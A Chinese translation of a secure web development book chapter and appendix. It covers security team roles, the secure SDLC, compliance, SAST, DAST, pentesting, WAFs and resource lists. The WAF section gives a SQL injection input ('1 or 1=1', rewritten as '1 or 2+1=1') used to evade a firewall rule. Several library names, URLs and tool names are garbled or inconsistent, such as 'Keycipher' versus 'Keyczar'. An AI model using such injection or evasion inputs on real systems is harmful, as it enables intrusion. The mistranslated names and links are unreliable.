- 一名活跃的工程师，具有构建高扩展性 Web、服务和移动应用程序的经验，且这些程序零漏洞
- 当团队中的其他人都有不同想法并对你的想法提出质疑时，能够构建、沟通并衡量复杂的架构设计
- 具备团队领导特质，支持一种能够发现并留住人才的软件工程文化，即使你真的无法支付任何接近其技能组合价值的薪水
- 对创建、构建和部署极其复杂的软件充满热情，即使管理层给你提出了不现实且任意的截止日期
- 每周活跃编码 20–40 小时，同时仍从事其他对高层管理更可见的工作
- 精通应用安全防御技术，并能够与团队中的所有开发人员进行有效的“心智合一”，实时传授这些知识
- 计算机科学或相关领域的硕士或以上学位，并希望薪着六位数的薪资
- 十五年的活跃编码经验
- 能够向高层管理隐藏你最优秀的开发者的乐观倾向
- 在面向对象分析和设计方面的专业知识——以至于你睡一觉醒来后，卧室里满了 UML 图
- 写作能力极其惊人，以至于架构文档可以在几周内出版
- 认为工作 60 小时是“轻量的一周”

我们可能在上述事项中加入了一点阻碍；显然，这个角色非常重要。从安全软件开发生命周期（SDLC）的角度来看，软件架构师必须负责可操作的编码标准和工具，使开发人员能够高效地编写安全代码。如果你的架构师更多时候是“纸上军架构师”而不参与其中，那么实现安全目标的概率非常低。

架构师可以成就或毁灭公司。请明智选择你的架构师。

### 角色：项目经理

项目经理与工程人员之间的关系通常是脆弱的。然而，项目经理在确保预算、时间投入和必要的安全工程实现方面起着至关重要的作用。当关键时刻到来承诺在眉睫时，项目经理往往承担着决定削减哪些内容的不幸角色。项目经理通常会决定削减管理层或客户不敏感的内容。例如，删除一个主要功能对所有人可见，但某些功能可能会被遗漏。安全漏洞，特别是非功能性（以安全为中心）的需求，是很容易在进度中被推后的。问题是，任何购买你软件的大客户或公司在签署之前都会坚持要求进行安全审查。这就是为什么在开发过程之前和期间为安全活动留出时间和资源是至关重要的。优秀的项目经理会确保这种“不可见”的需求在团队面前被明确地考虑在内。

### 角色：开发人员

当经理在管理、架构师在设计时，需要有人负责编写和维护代码的实际工作。在构建安全软件方面，优秀的软件开发人员可能是最重要的个人。当时期困难、预算紧张时，最优秀的开发人员是最后离开的。当紧急情况发生需要快速修复时，你最优秀的开发人员是你首先联系的人。开发人员像任何娇嫩的花一样，需要照顾、喂养和偶尔的阳光。然而，一个对安全毫无所知的才华开发人员可能会导致灾难。他们可以很快地发布新代码和功能，但在此过程中也会引入许多漏洞！这就是为什么你购买这本书并给团队中的每位开发人员一份至关重要。至少要确保你的开发人员在项目生命周期早期就拥有他们所需的安全编码知识。我们建议开发人员至少应接受与其项目和技术栈相关的安全编码技术培训，并学习如何使用由安全架构师苦心指定的工具和方法。我们看到有些公司只有在发生数据泄露或发现安全漏洞后才给开发人员提供这种培训。遗憾的是，这远远太晚了。等到泄露被被发现、培训被安排并执行、漏洞被修复时，攻击者可能已经在你的应用程序中肆虐运行数周了！

### 角色：QA 测试员

大多数 QA 专业人员非常适合验证软件的功能性需求。他们通常是你团队中技术性最低的成员，因为即使是非技术人员也能成为有效的 QA 专业人员。从上看，QA 测试员需要能够使用并精通你的 Web 应用程序，以便对其漏洞进行彻底测试。承认，QA 人有几个等级。高级 QA 人利用各种自动化工具来协助工作。最好的 QA 人是开发人员本身，他们编写单元测试和其他自动化程序，并完全集成到开发团队中。

某些软件方法论（如 DevOps）完全跳过了 QA，将其整合到单元测试等开发活动中。许多公司会犯的一个大错误是，认为标准的 QA 专业人员可以一夜变成渗透测试员或安全专业人员。虽然 QA 专业人员通常是你团队中技术性最低的成员，但安全专业人员和渗透测试员需要是你团队中技术最先进的成员之一。将你的 QA 员工魔法变成专业的安全测试员是不简单的（有时是不可能的）。

### 角色：专业安全测试员

渗透测试员是专业的“好人”黑客，他们以伦理的方式攻击你的网站，并尽早告知你任何漏洞，以便让你在漏洞“上线”并被利用之前有机会修复它们。这是最古老的信息安全职业之一，在过去几年中，对这些专业人员的需求大幅增加。渗透测试员有能力深入你的网站，发现自动化测试通常无法发现的漏洞，例如业务逻辑（自定义业务流程）或有时的访问控制漏洞。

这些人员并不廉价，而且需求量巨大。许多渗透测试人员在小型咨询公司工作，避免为大型公司或机构工作。这是一项挑战，因为对专业测试的需求远超该领域专家的供应，而且许多新入专业人士在缺乏正确专业知识的情况下进入安全测试领域。或许培养渗透测试人员最好的方法是从经验丰富的软件开发人员开始，并在渗透测试的艺术与科学对他们进行重新培训。从了解如何构建网站中获得的洞察力，在尝试利用这些网站时非常有帮助。

你如何知道雇佣的渗透人员是否足够详尽、熟练且专业，能够成为你团队的合适测试人员？你可以聘请一家外部安全公司，并与内部团队的 Result 进行交叉检查。如果你有健康问题，你不会幻想自己治疗并给自己开药。至少在同意进行昂贵且可能危险的手术之前，你会寻求第二意见。为什么安全工作就应该有所不同呢？外部公司可以（并且）审查你的安全计划，并偶尔测试你的应用程序以发现你的团队可能漏掉的漏洞。眼睛越多越有助于产生最全面的结果。使用外部公司还有助于缓解公司内部恶意行为者的威胁。

需要记住的一个重要点是，没有负面结果的安全报告并不意味着你的应用程序零漏洞。没有任何渗透测试能证明这一点。即使报告了某些漏洞，也可能存在其他未被发现的漏洞，这可能是由于时间限制、疏忽或完全隐蔽导致的。对于那些倾向于使用自动化手段确保完整测试覆盖的人，OWASP Code Pulse 项目为你提供了一种方法，在安全测试阶段监控渗透测试人员活动以及针对你网站的外部黑盒测试活动。

# 整个应用程序生命周期中的安全

软件开发生命周期有很多模式，但它们都共享相同的基本元素：设计、开发、测试、部署。将所有四个元素混合并充分摇晃（不要搅拌），砰的一声，你就拥有了 DevOps，敏捷、敏捷Ops、极端瀑布等等。无论你选择何种方法，你仍然需要为安全准备，仍然需要考虑安全进行构建，仍然需要对安全进行测试。希望你也在以安全的方式进行部署和处理运行时操作。这些步骤必须执行的事实并不会改变你是在使用 Scrum 模式还是仍然困在瀑布模型中。

> https://www.owasp.org/index.php/OWASP_Code_Pulse_Project

更敏捷的方法倾向于更少的文档和更多的行动。遗憾的是，这通常不会给安全架构师提供任何正式的内容来审查和评估。在安全架构师介入之前，开发可能已经进行了很大。

在每个软件开发人员都具备安全专业人员知识之前，任何未经安全开发的代码都带有风险。未经评审的代码使产品处于一种无法评估风险的不确定状态。

对于对安全软件开发生命周期更正式的审查，请查看 OWASP 基金提供的 BSIMM（构建安全成熟度模型）和 OpenSAMM（软件保证成熟度模型）。BSIMM 是对许多大型组织及其在构建安全软件方面采取的步骤的研究。这项研究并不证明这些方法的成功，但所描述的各种步骤非常有趣，特别是如果你是一家正在构建非常复杂软件项目的大型公司。OpenSAMM 是一个开放框架，帮助你的组织根据软件面临的特定风险构建自定义的软件开发生命周期。这两个模型都源于同一个小组，该小组分成了两个不同但有趣且有效的路径。如果你正在寻找有关更安全的 SDLC 模型的信息，这两个模型都值得审查。

请注意，我们很快将描述的各种安全-SDLC 步骤并不总是意味着按顺序完成。某些活动可以并且可以在整个软件开发生命周期中持续实施，取决于你的组织遵循的软件方法论或理念。

> ^4 分别见 http://www.bsimm.com/ 和 http://www.opensamm.org/

# 软件开发生命周期中的安全

现在你已经建立了自己的团队，在软件开发生命周期的每个阶段考虑安全是非常关重要的。在每个阶段，考虑如何充分利用你手头的资源。

## 业务需求

业务对你被要求构建的软件期望得到什么？即使是“敏捷”团队也需要从某种业务需求开始。在构建安全软件方面，一个很好的起点是捕捉业务需求。安全 SDLC 有几个关键方面最适合在此阶段处理。这包括对分配给安全活动的时间和预算设定合理的预期。如果你的公司还没有如开发人员培训、静态和动态分析以及渗透测试人员等资源，现在是为这些资源做计划了。

访问控制和身份验证需求应在此阶段确定。你的架构师会提出的问题是：这是一个多租户系统吗？我们有现成的身份验证服务需要集成吗？我们需要支持与其他伙伴的联合认证吗？虽然在后期阶段处理技术安全需求通常是更好的，但在此阶段捕捉影响身份验证和授权的业务需求是至关重要的，因为在“游戏后期”改变这些任何一种机制都是极其昂贵的。

## 标准/合规


对于高层管理人员，最可见的安全驱动因素是各种合规性标准，例如 PCI-DSS（信用卡管理）、HIPAA（医疗保健信息管理）、Gramm–Leach–Bliley（财务信息管理）以及各种国际隐私法，特别是欧洲的。虽然这些标准经常被安全专业人员批评为在技术上不准确或不完整（这是应的），但它们是安全领域极其强大的业务驱动力，如果不遵守，将产生痛苦的财务后果。

PCI-DSS 是支付卡行业数据安全标准。如果你在软件中处理、存储或使用信用卡，则该标准适用于你。更多信息请访问 <https://www.pcisuritystandards.org/security_standards/>。该标准定义了信息的哪些部分可以存储，以及这些部分在存储或传输时如何加密。

HIPAA 代表 1996 年的《医疗保险健康性与责任法案》。HIPAA 迫使医疗提供者（以及管理员工医疗信息的公司）确保隐私要求得到满足。如果发生医疗数据泄露，HIPAA 定义了通知受影响患者的规则。通知要求为高层管理提前规划安全提供了强大的动力，而不是在事件发生时遭受可能尴尬的披露。

Graham-Leach-Bliley 法案是一项巨大的金融重组法，允许大型金融机构在一个机构下进行各种财务活动。这对于银行来说很好，但我们安全专业人员关心的法案部分是，提供以消费者为中心的服务的公司必须公开其信息共享做法和保护消费者数据的步骤。

欧盟正在考虑各种法规以确保其公民的隐私。这些潜在法规是迄以来提议的最强有力的法规。如果新法规通过，将对任何不保护个人数据的人处以最高 25 万欧元或公司全球年度总营业额的 0.5% 的罚款。冷……这绝对会引起高管的注意！

## 面向开发人员的技术安全需求

在设计过程结束或与之同步时，是时候告诉开发人员具体需要哪些代码了。开发人员需要了解高层业务需求——这通常是大多数公司停滞的地方。然而，强制性的技术安全需求可以成为一种强大的力量，促使开发人员关注安全。明确的需求，例如“确保所有数据库查询都使用绑定变量参数化”可以产生强大的积极影响。而一些不明确的需求，如“确保实现了访问控制”，往往会让开发者一头雾水，或者让他们走上一条并非你最初初衷的道路。

技术需求通常被分为两个或多个大类：功能性需求和非功能性需求。功能性需求是可见的需求，通常可以由标准的质量保证（QA）人员进行测试。从安全的角度来看，这些可见的需求可能看起来像：“确保用户在更改密码过程中提供其当前密码”或“确保忘记密码的工作流遵循以下 X 个步骤”或“仅允许具有管理员权限的用户访问主首页”。这种功能性安全需求细节的优势在于，这些需求不仅可以用于管理开发者，还可以构建一个利用 QA 员工的详细安全测试计划。

非功能性需求则是另一回事。这些是隐藏的“以质量为中心”的需求，很难在 QA 人员的测试计划中。大多数开发者已经听过的非功能性需求的一个很好的例子是“让它变快”。随着时间的推移，性能需求已经从模糊的模糊描述演变为最大页面渲染时间、事务吞吐量和总并发用户，并且已经开发了复杂的工具来确保这些目标的实现。

非功能性需求是为开发者设计的，例如“确保所有查询都是参数化的”或“确保密码使用带有 2048 位密钥和至少 150,000 次迭代的加盐 PBKDF2-SHA256”。要求 QA 这些这些通常是不现实的。通常，你需要安全专业人员来进行准确验证，因此需要在细节上进行适当平衡。我们希望确保开发者实现了正确的安全目标，而不是强迫他们走一条可能不适用于他们面临的特定问题的道路。然而，非功能性安全需求至少应该强制开发者与安全架构师之间就需要哪些安全控制进行对话，有时这对于引导开发者向安全软件迈进所需的全部。一旦开发者理解了需要哪些安全控制以及它们为什么重要，大多数人都足够聪明和勤奋来完成任务。

帮助你开启非功能性（以及其他）安全需求路径的良好资源是《OWASP 安全编码快速参考指南》(OWASP Secure Coding Quick Reference Guide) 和《OWASP 应用安全验证标准》(ASVS)⁶。尽管 OWASP ASVS 标准是用于“评估”的，但我们也发现它在为开发者构建安全需求时很有帮助。

## 在开发代码时实现安全控制

《铁甲 Java：构建安全的 Web 应用程序》

安全架构师可以领导的最重要的技术任务之一是为该应用程序（并希望为整个组织）构建一个安全编码库。不要从零开始封装你的安全控制！此外，我们不要直接依赖第三方库进行安全。在可能的情况下，封装这些库，以便随着时间的推移更换为新的库。很多时候，我们要求开发者在应用程序中构建安全性，而不给他们提供所需的工具或培训。这是灾难的配方。

接下来的段落包含了可能帮助你构建自己的安全栈的安全编码库或框架。Apache Shiro 是一个身份验证和授权框架等。我们非常喜欢 Shiro 以及其基于属性的访问控制（ABAC）。Apache Shiro 是一个“重量级”库，使用它需要投入大量时间。在我们自己的安全 API 之下进行“封装”它将是最困难的。

对于跨站脚本防御，我们喜欢老牌的 JavaScript 页面标签库⁸、用于输出编码 XSS 防御的 OWASP Java Encoder、用于不可信 HTML 清理的 OWASP Java HTML Sanitizer，以及用于出入站 JSON 清理的 Java Sanitizer。在应用密码学方面，Google Keycipher⁹ 在该领域脱颖而出，可以与开源库 BouncyCastle¹⁰ 使用以提供更现代的加密提供程序。我们也是 HeadLines¹¹ 一个 HTTP 响应头安全 API 的粉丝！最后，我们使用 Logback¹² 最现代且可追溯的日志框架之一。

这些组件可以也应该用于构建你自己的安全栈。通过提供高质量且全面的安全库，你会让开发者的生活变得更容易。

> 6. <https://www.owasp.org/index.php/OWASP_Secure_Coding_Practices_-Quick_Reference_Guide> 以及来自 <https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project>
>
> 7. <http://shiro.apache.org/>
>
> 8. <http://www.oracle.com/technet/network/java/index-jsp-135995.html>；<https://www.owasp.org/index.php/OWASP_Java_Encoder_Project>；<https://www.owasp.org/index.php/OWASP_java_HTML_Sanitizer-Project>；以及 <https://www.owasp.org/index.php/OWASP_JSON_Sanitizer>
>
> 9. <https://keycipher.org/>
>
> 10. <https://www.bouncycastle.org/>

## 第三方依赖

每个 Java 开发者都基于第三方库进行开发以构建应用程序。但我们能在多大程度上信任这些库呢？Aspect Security 的 Jeff Williams 和 Arshan Dabisrisiaghi 在 2012 年 3 月发布了一份题为《不安全库的遗憾现实》(The Unfortunate Reality of Insecure Libraries) 的报告¹³。他们分析了来自中央仓库的 31 个最流行的开源 Java 框架和库的 1.13 亿次下载。报告得出结论认为：

- 通常使用 30 个或更多的库。
- 如今应用程序中 88% 的代码来自库和框架。
- 26% 存在已知漏洞。
- 大多数漏洞尚未被发现。

我们在没有任何分析的情况下就依赖如此多“信任”的 Java 代码，这太令人惊讶了！有一种普遍的观点认为开源代码更好或更安全，因为有更多人在查看它。我们通常假设“社区”已经由于许多人的参与而处理了任何问题，但情况并非总是如此。正如我们已经讨论过的，许多开发者擅长添加功能，但缺乏安全开发方面的培训。不要让任何未经审查的第三方库进入生产代码！

> 11. <https://github.com/sourceclear/headlines>
>
> 12. <https://logback.qos.ch/>
>
> 13. <https://www.aspectsecurity.com/uploads/2012/02/03/Aspect-Security-The-Unfortunate-Reality-of-Insecure-Libraries.pdf>

### Java 版 OWASP Dependency Checker

OWASP 基金有一个名为 DependencyCheck 的免费工具，它可以帮助审查你的第三方 Java 库，并将这些 jar 包与已发布的漏洞进行对比¹⁴。这个免费工具将帮助你免费发现第三方代码中公开披露的漏洞！

### `jdeps`

`jdeps` 是 Java 8 标准版附带的一个命令行工具，用于识别库依赖关系。从安全的角度来看，`jdeps` 是非常有用的，因为它识别了第三方库中可能对升级能力产生负面影响的依赖。

> 14. <https://www.owasp.org/index.php/OWASP_Dependency_Check>

## 测试安全控制已正确实施

安全测试可能是一个昂贵困难的过程，特别是在软件开发生命周期的后期。明智的做法是结合静态代码分析（SAST）、针对运行应用程序的动态分析（DAST）、评估业务逻辑和业务特定漏洞的渗透测试人员（pentesting），以及手动深层代码审查。这些技术可能既昂贵又耗时。根据威胁的严重程度以及软件对你公司的重要性和价值来使用这些测试方法是明智的。务必在早期为这些活动预留成本和时间！

## SAST——静态应用安全测试

SAST，或静态应用安全测试工具，是自动化安全分析产品，通过审查你的源代码或字节码来寻找安全漏洞。这些安全测试是针对“静态”源代码或字节码运行的，而不是针对运行中的应用程序进行测试。这些工具的优势在于它们可以定期以自动化方式运行，它们通常能发现现场测试人员可见有限的漏洞，并直接在代码中显示错误，以便开发者高效地找到并修复。这些工具被认为是“白盒测试”工具，因为它们是从“内而外”审查应用程序的。

例如，你可以将静态分析包含在你的夜间 CI 过程中。任何缺陷都可以自动发布到你的错误跟踪系统中，并在发送给开发者的邮件中注明。当开发者修复漏洞并提交代码时，可以在没有安全人员干预的情况下重新进行扫描并消除该漏洞。

然而，SAST 工具与任何其他工具一样都有其局限性。传统上，SAST 工具会产生大量的误报（它们经常报告并非真正可利用的安全漏洞），并且对业务逻辑漏洞（特定于业务的漏洞）的可见性很低。SAST 工具在扫描大型代码库时也存在耗时过长的历史问题。许多新兴供应商正试图解决这些问题，但构建有效的 SAST 工具需要巨大的投入。最早的基于 Java 的开源 SAST 工具之一是 Bill Pugh 开发的著名的 FindBugs 开源项目。FindBugs 与大多数 Java IDE 以及如 Jenkins 等多个自动化构建系统集成。这是一种让开发者开始以常规且持续的方式使用静态分析的极佳且廉价的方法。

在评估商业 SAST 工具以确定最适合贵公司和应用程序的工具时，请参考 Web 应用安全联盟（Web Application Security Consortium）提供的静态分析技术评估标准。

## DAST——动态应用程序安全测试

动态应用程序安全测试（DAST）工具本质上是“扫描器”，它们尝试对运行中的 Web 应用程序进行各种攻击以寻找漏洞。这些工具与 SAST 工具一样，都是自动化扫描器，通常会报告大量需要安全专业人员审查的误报。DAST 工具通常被称为“黑盒测试”，因为它们在不知道软件内部工作原理的情况下，从“外部向内部”进行测试。这在测试你的应用程序时，通常被认为是“黑客视角”。

让开发者“不在乎安全”的最佳方法之一，就是给他们堆满大量的安全漏洞，而这些漏洞在仔细检查后发现其实并不是真正的漏洞（换句话说，就是误报）。虽然可以对这些工具进行调整以减少误报，但这样做也会减少实际安全发现的数量。如果你在“未调优”的情况下对你的应用程序运行扫描器，误报率通常很高。如果你向相反的方向调整工具，可能会漏掉关键漏洞。更不用说：

`DAST` 工具和 `SAST` 一样，也难以发现如访问控制漏洞等特定的业务流程漏洞。

好消息是，DAST 安全“发现”在经过验证后并不是理论性的。DAST 工具发现的是真实世界中可利用的漏洞，通常需要立即修复。SAST 和 DAST 工具以不同的方式审查你的应用程序安全漏洞。两者都是相关的，并且应该结合使用以彻底审查你的应用程序的安全性。

> 15. <http://findbugs.sourceforge.net/>
>
> 16. <http://projects.webappsec.org/w/page/66094278/Static%20Analysis%20Technologies%20Evaluation%20Criteria>

## 手动渗透测试

工具固很好，但如果没有具备知识的人来操作，它们就毫无用处。我们作为开发者所做的一切都涉及定制开发，所以你为什么要信任一个模版化的工具来保护你的应用呢？这就是专业安全测试人员（又称渗透测试人员，简称 pentesters）大显身场的地方。渗透人员擅长对问题进行深度调查、研究业务工作流并验证其他工具发现的问题。渗透人员还可以将多种缺陷组合起来，构建一个完整的利用链。完整的利用链可以比工具的原始输出更清晰地向管理层解释问题的严重性。经理听到“SQL 注入”时可能会眼神呆直，但如果他听到“SQL 注入帮助我渗透了你的数据库并发现了密码哈希值……让我能够以管理员身份登录，然后将资金转给第三方”，那将真正引起他的注意。

渗透人员也有他们的缺点。优秀的渗透测试人员稀缺、昂贵，且扩展性不佳。在采用快速开发周期或“极端编码”的环境中，依靠一名渗透人员很难跟上进度。将 DAST、SAST 和知识渊渊的渗透人员结合起来，通常是利用稀缺资源的最佳解决方案。

## 建立监控和响应、恢复计划

即使你遵循了书中的每条建议，仍有很大可能你的应用程序在某某时刻被攻破。事实上，它可能已经被攻破了！在上线之前，准备一个计划来应对可能发生的负面安全事件是明智的。应急响应计划对于每个组织来说都是不一样的，但你可以开始回答以下问题：

- 如果在我的上线网站上发现了漏洞，我该怎么办？
- 如果我发现自己正遭受攻击，我该怎么办？
- 我是否有备份以防数据丢失？
- 如果发生拒绝服务攻击，我是否有切换计划？
- 我是否记录了足够的信息来重构入侵是如何发生的、由谁造成的以及访问了什么内容？
- 如果我发现公众（通过 Pastebin）知道我最近被黑客攻击了，我该怎么办？
- 法律要求我向用户披露什么？

这些是每个应急响应团队必须准备的问题。应急响应是一个巨大的课题，可能本身就可以写一整本书。对于本书而言，应急响应团队和开发者的真正交点在于日志和入侵检测领域。我们建议你查看第 9 章以获取有关日志的更多信息。在网站实际运行期间，务必检查你的日志文件写入正确并已备份，并且记录了适当水平的信息。此外，你应该了解你的日志轮转策略并指定适当的日志保留时长。在事件发生后，评估哪些措施有效、无效至关重要，并据此调整流程。在事后分析中，你要确保不仅修复了出现的问题，还修复了整个*类*问题。例如，如果你发现自己容易受到 XSS 攻击，请检查应用程序清单并确保在所有位置都使用了正确的编码。

> **提示：** 很可能如果你的一个应用程序存在问题，那么你公司的其他应用程序也存在相同的问题。攻击者首先会尝试在另一个应用程序上使用相同的利用方法。在组织层面，你需要确保采取正确的安全控制措施，确保项目经理理解修复问题是优先事项，并确保你的开发者有适当的培训和资源在整个范围内解决这个问题。

## Web 应用防火墙（WAF）

> WAF 是弱者的表现。——Jim Routh

Web 应用防火墙（WAF）本质上是“七层”（应用层）防火墙，它们检查 HTTP 流量并根据定义的规则尝试拦截攻击。

WAF 有一段非常有争议的历史。运维人员喜欢应用程序防火墙，因为它们让他们能够在不依赖开发者实际修复代码的情况下看似“安全”应用程序。然而，攻击者也喜欢过度依赖“默认配置”Web 应用防火墙的应用程序，因为它们很容易绕过。可以使用 Sandro Gau 开发的 `waf00f`¹⁷ 等工具来检测 WAF。一旦被发现，攻击者就可以各种 WAF 规避技术。在二十年前的一次审计中，我正尝试突破一个阻止我的 SQL 注入攻击“1 or 1=1”的 WAF。我只需将其替换为“1 or 2+1=1”就能规避这个相当简单的防火墙规则。

> 17. <https://code.google.com/p/waffit/source/browse/trunk/waf00f.py>

虽然将 WAF（Web 应用防火墙）丢在脑后并开几次车很容易的，但在某些情况下，Web 应用防火墙可以成为强大的盟友。假设你依赖一个 COTS（商业现货）应用程序网站，并且没有代码控制权。有时，当发现安全漏洞时，你唯一的选择是停用该应用程序或使用经过配置的 WAF 规则。有时你的开发人员有其他优先事项，在一段时间内无法修复漏洞。即使是最敏捷的开发组织也无法以足够的速度完成解决方案的分拣、设计、编码、测试和部署。在这种情况下，WAF 是快速锁定漏洞的绝佳工具，可以在你的开发者修复底层漏洞之前为你“争取时间”。WAF 并非完美的安全性，且经常存在问题。但有时，如果你想继续经营业务，WAF 就是你需要的一切。请记住，WAF 永远不应该是永久的解决方案。

最老的开源 WAF 之一是 Apache 基金会的 ModSecurity，这是一个开源 Web 应用防火墙。¹⁸ 虽然该项目是 Apache 基金会的一部分，但 OWASP 基金会管理核心规则集。请访问 OWASP ModSecurity 核心规则集¹⁹（由 Ryan Barnett 管理）获取更多信息。


> **提示**
>
> 寻找不同供应商之间的集成，这样你就可以利用一种方法的成果配合另一种方法。例如，WhiteHat Security 提供 DAST 评估服务，该服务可以馈给 Imperva、F5 ASM 以及其他 Web 应用防火墙。²⁰

## 总结

有很多构建软件的方法论。敏捷开发、瀑布模型和其他方法之间的争论是一场“宗教争论”，我们将礼貌地避开。然而，无论你选择哪种软件构建方法论，在每个层面考虑安全性都是关重要的。要明白，“越得越快”，在安全测试活动中“越需要纪律”。了解你的威胁、资产和监管环境。从第一天起就进行安全设计！为你的开发人员提供正确的教育和工具来构建安全软件！尽早测试，经常测试！建立监控和应急响应计划！并将上开发周期的教训纳入下一个周期，以便不断提高你的安全态势。

¹⁸ <https://www.modsecurity.org/>

⁹ <https://www.owasp.org/index.php?Category:OWASP_ModSecurity_Core_Rule_Set_Project>

²⁰ Jim 是 WhiteHat Security 的前员工，所以我们在这里可能有点偏见。有很多安全供应商的解决方案；在做出严肃购买决策之前，审查所有可用产品是明智的。

## 结语

当你关注软件的安全性时，大家都赢了。坐在你旁边的开发者赢了，因为你成为了帮助团队编写更安全代码的资源。你的公司赢了，因为它能够发布健壮且安全的软件。你的客户赢了，因为你可以成功地保护他们的个人数据。安全工程还保护了无形资产——用户的希望和梦想。他们依赖你的网站处理电子邮件、管理财务、医疗信息、与亲人通信以及娱乐。Web 和其他网络应用程序日益渗透到我们生活的方方面面。

最后，关注安全工程将有利于你，作为一个 Java 开发者。批判性地思考安全性将帮助你打开思路，采用新的软件开发方法。安全工程是一项没有足够的开发人员掌握的重要技能。世界需要更多关注并精通安全工程的开发者。世界迫切需要以安全的方式“重构 Web”，而这从你以及你编写的下一行代码开始。

这本书并不是终点，而是你精通应用安全和安全工程的开始。我们感谢你与我们共同迈第一步。


## 附录

### 资源

以下参考文献将帮助你继续进行安全编码的学习。这些资源包括各种评估工具、多个安全编码库以及用于进一步学习的各种文档。

### 拦截代理

*拦截代理*（intercepting proxy）是一种 Web 安全评估工具，用于在审计期间协助渗透测试人员。该工具允许测试人员截获并修改 HTTP 流量，试图绕过 Web 应用程序的安全控制。

- Firefox Tamper Data 插件使得拦截 HTTP 或 HTTPS 请求变得简单。这种拦截代理不需要任何配置。只需安装它、启动、点击 Start Tamper，然后开始篡改。<https://addons.mozilla.org/en-US/firefox/addon/tamper-data/>

- OWASP ZAP 是一个开源拦截代理和 Web 应用扫描器。它是 OWASP 的领先项目，由一个大型团队积极开发和维护。<https://www.owasp.org/index.php/OWASP_Attack_Zed_Proxy_Proxy/>

- Burp Proxy 是一个提供商业版和免费版的拦截代理。它是一个成熟且支持良好的拦截代理。<http://portswigger.net/burp/proxy.html>

### 安全编码库

以下 Java 安全库已准备就绪，将帮助你高效地构建安全的 Web 应用程序。

#### 访问控制/身份验证

- Apache Shiro 库具有前瞻性的、基于权限的访问控制机制等功能。<http://shiro.apache.org/>

- 标准 JavaServer Pages Tag 库提供了核心 UI 组件，其在默认使用时对 XSS 有抵抗力。<http://www.oracle.com/technet/java/index-jsp-135995.html/>

- OWASP Java Encoder 是一个高性能、细粒度的安全库，旨在为界面代码提供输出编码功能，以实现非常详细的 XSS 防御。由 Jeff 编写。<https://www.owasp.org/index.php/OWASP_Java_Encoder/>

- OWASP Java Sanitizer 提供了对不可信 HTML 的清理。该库性能高且资源占用低。由 Mike Samuel 编写。<https://www.owasp.org/index.php/OWASP_HTML_Sanitizer/>

- OWASP Java JSON Sanitizer 将清理输出或输入的 JSON 以使其更安全。<https://www.owasp.org/index.php/OWASP_JSON_Sanitizer>

#### 应用加密

- Google Keyczar 是开源加密工具包，旨在让开发者更容易地为应用添加加密。<http://www.keyczar.org/>

#### 强加密提供者

- Bouncy Castle 是 Java 的开源强加密提供。<https://www.bouncycastle.org/>

#### 日志与入侵检测

- Logback 是一个易于使用的 Java 日志框架。它被认为是 `log4j` 的继任者。<http://logback.qos.ch/>

Apache Commons Logging 框架在应用程序、库与相应的日志实现之间提供了一个薄桥接。<http://commons.apache.org/proper/commons-logging/>

OWASP AppSensor 项目是一个入侵检测安全库，也可以针对应用程序的安全攻击提供自动响应。<https://www.owasp.org/index.php/OWASP_AppSensor>

#### Web 杂项

- Headline 项目提供一组 HTTP 响应头，以提升你的 Web 应用程序安全性。<https://github.com/sourceclear/headlines/>

- OWASP Code Pulse 项目在黑盒测试期间提供代码覆盖的实时数据。<https://www.owasp.org/index.php/OWASP_Code_Pulse>

### 文档

以下文档分类提供了各种安全编码资源和标准。

#### 意识文档

以下文档用于提高应用安全技术主题的意识。

- OWASP 十大风险是一份受欢迎的意识文档，有助于了解最基本的 Web 应用安全风险。<https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project/>

- OWASP 十大主动控制是一份意识文档，旨在提高开发者对最重要的 Web 安全防御的意识。<https://www.owasp.org/index.php/OWASP_Proactive_Controls>

#### OWASP 速查表（Cheat Sheets）

OWASP 速查表系列由应用程序安全专家小组编写了一简洁指南。

- OWASP 密码存储速查表（OWASP Password Storage Cheat Sheet）讨论了为了身份验证存储用户密码时的正确密码学方法。由 John Steven 编写。

  <https://www.owasp.org/index.php/Password_Storage_Cheat_Sheet>

- OWASP XSS 预防速查表（OWASP XSS Prevention Cheat Sheet）是 OWASP 最流行的资源之一。由 Jeff Williams 编写。该指南帮助开发者阻止应用程序中的跨站脚本。

  <https://www.owasp.org/index.php/XSS_Cross_Site_Scripting/Prevention_Cheat_Sheet>

- OWASP 忘记密码速查表（OWASP Forgot Password Cheat Sheet）是一份帮助开发者在 Web 应用程序构建高安全性“忘记密码”功能的指南。

  <https://www.owasp.org/index.php/Forgot_Password_Cheat_Sheet>

- OWASP 会话管理速查表（OWASP Session Management Cheat Sheet）由 Raul Siles 编写，是一份全面的指南，讨论了在 Web 应用程序中使用和构建会话管理机制时的必要安全考虑。

  <https://www.owasp.org/index.php/Session_Management_Cheat_Sheet>

- OWASP 身份认证速查表（OWASP Authentication Cheat Sheet）由 Eoin Keary 编写，涵盖了在 Web 应用程序中构建登录和认证层时最重要的安全考虑。

  <https://www.owasp.org/index.php/Authentication_Cheat_Sheet>

- OWASP 查询参数化速查表（OWASP Query Parameterization Cheat Sheet）涵盖了查询参数化最重要的安全控制，将帮助你构建能够抵抗 SQL 注入的应用程序。

  <https://www.owasp.org/index.php/Query_Parameterization_Cheat_Sheet>

270 铁甲 Java：构建安全的 Web 应用程序

### 标准

- OWASP 安全验证标准（OWASP Security Verification Standard）为验证 Web 应用程序的安全提供了基准。

  <https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project>

- WASC Web 应用程序威胁分类（WASC Web Application Threat Classification）是一份与 Web 相关的安全威胁列表。

  <http://projects.webappsec.org/w/page/13246978/Threat_Classification>

- OAuth 2.0 标准描述了最重要的授权标准之一。

  <http://tools.ietf.org/html/rfc6749>

- NIST 特别出版物 800-162《基于属性的访问控制指南》（Special Publication 800-162, Guide to Attribute Based Access Control (ABAC)）描述了下一代访问控制标准和设计。

  <http://nipvpubs.nist.gov/nistpubs/specialpublications/NIST.sp.800-162.pdf>

### 附加研究

- Apache Shiro 授权（访问控制）指南（Shiro Authorization (Access Control) Guide）

  <http://shiro.apache.org/authorization.html>

- Spring 3.2 访问控制指南（Spring 3.2 Guide to Access Control）

  <http://docs.spring.io/spring-security/site/docs/3.2.x/reference/htmlsingle/#authorization>

- 关于基于 DOM 的 XSS 的原始论文《DOM 跨站脚本或第三类 XSS》（DOM Based Cross Site Scripting or XSS of the Third Kind），作者为 Amit Klein。

  <http://www.webappsec.org/projects/articles/071105.html>

